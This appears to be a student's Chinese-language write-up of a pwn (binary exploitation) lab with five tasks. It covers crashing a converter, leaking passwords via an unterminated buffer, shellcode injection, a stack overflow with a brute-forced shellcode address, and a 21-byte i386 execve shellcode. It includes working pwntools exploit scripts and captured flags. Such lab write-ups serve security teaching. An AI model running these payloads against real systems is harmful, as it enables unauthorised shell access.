









# Pwn Lab1：Pwn基础

# 1 Task1 nocrash

简单看一下程序，是一个基本的进制转换


考虑一些特殊输入，比如向零进制的转换，成功使程序崩溃，得到flag`AAA{pr0GraM_C4n_ea5ilY_crAsH}`​


题目通过截图


# 2 Task2 login_me

简单看一下程序，大概是一个键入用户名密码得到结果的过程，尝试利用字符串的输出特性进行攻破，即使键入字符串长度等于buffer\_size额外输出其密码，得到user密码`I_am_very_very_strong_password!!`​


拿到第一部分flag`AAA{Oh_D1rTy_sta`​ 对于admin同样这样操作


得到admin的密码`ILovePlayCTFbtwAlsoDota2!`​再次登入，开启shell，找到flag2获取剩余部分flag`CK_Ne3d_C1a4n}`​

完整flag`AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}`​题目通过截图



# 3 Task3 inject_me

观察一下代码，前半段flag的获取主要是实现加，减，或，与，异或五种运算，写脚本交互一下，得到前半段flag`AAA{SheL1c0de_T0`​，附件包含`inject1.py`​

```python
add_code = asm("""
    mov rax, rdi
    add rax, rsi
    ret
""")

sub_code = asm("""
    mov rax, rdi
    sub rax, rsi
    ret
""")

and_code = asm("""
    mov rax, rdi
    and rax, rsi
    ret
""")

or_code = asm("""
    mov rax, rdi
    or rax, rsi
    ret
""")

xor_code = asm("""
    mov rax, rdi
    xor rax, rsi
    ret
""")


log.info("正在发送 ADD shellcode...")

p.sendafter(b"ADD\n", add_code)

log.info("正在发送 SUB shellcode...")
p.sendafter(b"SUB\n", sub_code)

log.info("正在发送 AND shellcode...")
p.sendafter(b"AND\n", and_code)

log.info("正在发送 OR shellcode...")
p.sendafter(b"OR\n", or_code)

log.info("正在发送 XOR shellcode...")
p.sendafter(b"XOR\n", xor_code)
```

考虑于最后一步注入能启动shell的shellcode来控制进程，我们发送一段由`pwntools`​的`shellcraft.sh()`​生成的、功能为执行 `/bin/sh`​的Shellcode，当程序执行到 `funcptr(a, b)`​ 并调用我们提供的第五段代码时，这段代码并不会进行计算然后返回，而是会发起一个 `execve`​ 系统调用。这个系统调用会使当前的程序进程被一个全新的 `/bin/sh`​ 进程所取代，由此获得第二部分flag`_9E7_All_F1ag5}`​，附件包含`inject2.py`​

```python
add_code = asm("mov rax, rdi; add rax, rsi; ret")
sub_code = asm("mov rax, rdi; sub rax, rsi; ret")
and_code = asm("mov rax, rdi; and rax, rsi; ret")
or_code = asm("mov rax, rdi; or rax, rsi; ret")

shell_code = asm(shellcraft.sh())

log.info("合作阶段: 正在发送前四个正确的 shellcode...")
p.sendafter(b"ADD\n", add_code)
p.sendafter(b"SUB\n", sub_code)
p.sendafter(b"AND\n", and_code)
p.sendafter(b"OR\n", or_code)
log.success("合作阶段完成。")

log.info("背叛阶段: 正在发送获取 Shell 的 shellcode...")
p.sendafter(b"XOR\n", shell_code)
log.success("攻击载荷已发送！切换到交互模式...")

p.interactive()
```



完整flag`AAA{SheL1c0de_T0_9E7_All_F1ag5}`​题目通过截图


# 4 Task4 sbofsc

先看一下源程序，需要利用的主要的两个漏洞分别是栈溢出和RWX Memory，想法是把返回地址替换为我们存放了shellcode的地址，以此来打开shell，先尝试获取多少字符能刚好覆盖返回地址

用一个长字符串淹没缓冲区，在崩溃处下断点，并检查此时位于栈顶的返回地址`0x6161617461616173`​，调用`cyclic_find`​获取偏移量为72






获取到偏移量后，尝试构造的payload就应该是72个字符+返回地址，对于远程服务器，由于不知道环境变量`MRND`​的具体值，但是其地址由于是有限的，暴力尝试即可，最后得到正确地址，我们发送`cat flag`​并接受结果即得到最终flag`AAA{R37_t0_guEs5_shE1Lc0d3_poS}`​

```python
# 准备 shellcode
shellcode = asm(shellcraft.sh())
log.info(f"Shellcode 长度: {len(shellcode)} bytes")

# 准备溢出载荷的固定部分
offset = 72
padding = b'A' * offset

# --- 暴力破解循环 ---
for i in range(8):
    p = remote(HOST, PORT, level='warn')

    # 1. 计算地址
    shellcode_addr = 0x20000 + (i * 0x1000)
    log.info(f"正在尝试第 {i+1}/8 次: 地址 -> {hex(shellcode_addr)}")

    # 2. 构造载荷
    ret_addr = p64(shellcode_addr) 
    payload = padding + ret_addr

    try:
        # 3. 发送载荷
        p.sendlineafter(b"what's your name: ", shellcode)
        p.sendlineafter(b"try to overflow me~", payload)

        # 4. 验证是否成功
        p.sendline(b"echo SUCCESS_CHECK")
        p.recvuntil(b"SUCCESS_CHECK", timeout=1)
        
        log.success(f"攻击成功！正确的地址是: {hex(shellcode_addr)}")
        
        
        # 发送 cat flag 命令
        p.sendline(b"cat flag")
        
        # 接收所有返回的数据，直到连接关闭或超时
        try:
            flag_content = p.recvall(timeout=2)
            log.success("Flag: " + flag_content.decode(errors='ignore').strip())
        except EOFError:
            log.info("连接已关闭。")
        break

    except Exception as e:
        log.failure(f"地址 {hex(shellcode_addr)} 失败。")
        p.close()
```


题目通过截图，附件包含`sbofsc.py`​



# 5 Bonus

这道题的思路相当直接了，就是执行栈上的shellcode，两个限制条件一个是输入的shellcode长度必须小于等于35字节，另一个是32位架构（没看到绕了一些弯路），关键就是找到这段符合条件的shellcode

很容易想到自己生成很容易超出字节长度限制，从原题所给的数据库中去找一找，找到了一段21字节的版本`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`​



然后就没有什么新意了，得到最终flag`AAA{lgm_is_a_big_turtle_qq_qun_386796080}`​

```python
from pwn import *
import time

HOST = "10.214.160.13"
PORT = 11003

# 设置32位架构
context.arch = 'i386'
context.os = 'linux'

p = remote(HOST, PORT)

log.info("等待并接收服务器的欢迎语...")
p.recvuntil(b"assemble instruction\n")
log.success("欢迎语接收完毕。")

shellcode=b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
payload = shellcode

log.info(f"最终 Payload 总长度: {len(payload)} bytes (限制为35)")

log.info("发送最终的 payload...")
p.send(payload)
p.interactive()
```



题目通过截图，附件包含`shellcode.py`​


